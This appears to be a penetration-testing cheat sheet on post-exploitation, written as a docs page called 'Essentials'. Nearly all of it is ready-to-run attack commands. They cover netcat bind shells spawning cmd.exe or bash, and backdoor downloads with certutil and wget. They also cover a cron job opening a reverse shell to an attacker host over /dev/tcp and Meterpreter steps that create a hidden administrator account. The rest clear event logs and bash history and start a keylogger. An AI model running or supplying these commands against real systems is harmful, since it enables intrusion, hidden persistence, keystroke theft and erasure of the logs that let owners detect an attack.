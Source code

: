 ```yaml
---
title: "Essentials"
weight: 1
description: "Learn essential post-exploitation techniques and commands for pentesting. This guide covers shell types, file transfer, pivoting, persistence, and clearing tracks."
---
```


# Essentials

---

## Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

```sh
# Windows (target)
nc -nvlp <target_port> -e cmd.exe 
nc.exe -nvlp <target_port> -e cmd.exe

# Linux (target)
nc -nvlp <target_port> -e /bin/bash

# Linux (attacker)
nc -nv <target_ip> <target_port>

# Windows (attacker)
nc.exe -nv <target_ip> <target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also "linux/x64/shell_bind_tcp"
set rhost <target_ip>
set lport <target_port>
run
```
---

## Transfer files

```sh
# Start web server
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
php -S 127.0.0.1:8080

# Download (HTTP Windows)
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# Download (HTTP Linux)
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php     # [sender]

# With base64
cat file | base64 -w 0 # get base64 [output is a single continuous line]
echo <output_base64> | base64 -d > file # create file

# Tips
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php

# Note: netcat "-n" option means no DNS (only IP)
```
---

## \[Fully] interactive shell

**Interactive shell**

```sh
/bin/bash -i # Linux
```

**Fully interactive shell**

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

**Automatic**

```sh
# https://github.com/brightio/penelope
# Currently only Unix shells are fully supported. 
# There's basic support (netcat-like interaction + logging)

./penelope.py <port>               # Reverse shell
./penelope.py -c <target> <port>   # Bind shell
```
---

## Persistence

### Windows

**(1) Metasploit - Module:** Search persistence module (Windows). Ex: `exploit/windows/local/persistence_service` (Requires admin or system privileges). When you want to connect again set a listener to receive the connection

**(2) Enable RDP**

* First way with metasploit: search `enable_rdp` (and set session). Then connect to victim.

{{< hint style=notes >}}
**Note**: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM or you can create a new account and add it to administrator group.
{{< /hint >}}

* Second way with metasploit/meterpreter (auto create account and settings):

```sh
# In meterpreter
run getgui -e -u user_you_want -p password_you_want

# This enables rdp service -> 
# Creates new user with the provided parameters -> 
# Hides user from windows login screen -> 
# Adds user to Remote Desktop Users and Administrators group
```

### Linux

**(1) Metasploit:** Search persistence module (Linux). Example: `post/linux/manage/sshkey_persistence` (needed elevated privs - This module will add an SSH key to a specified user)

**(2) Via SSH key:** After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH

**(3) With cron jobs**

```sh
# 1. Set up listener
# 2. Create a cronjob (every minute time format)
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron 
# 3. This will replace the user's existing crontab with the contents of 'cron'
crontab cron

# Crontab for the current user
crontab -l 
# NOTE: if the command doesn't work try with another revshell
```
---

## Clearing tracks

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # Clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # Clear history
cat /dev/null > ~/.bash_history     # Same as above
```
---

## Keylogger

```sh
# With metasploit
keyscan_start          # Start keylogger
keyscan_dump print     # Captured strokes
```
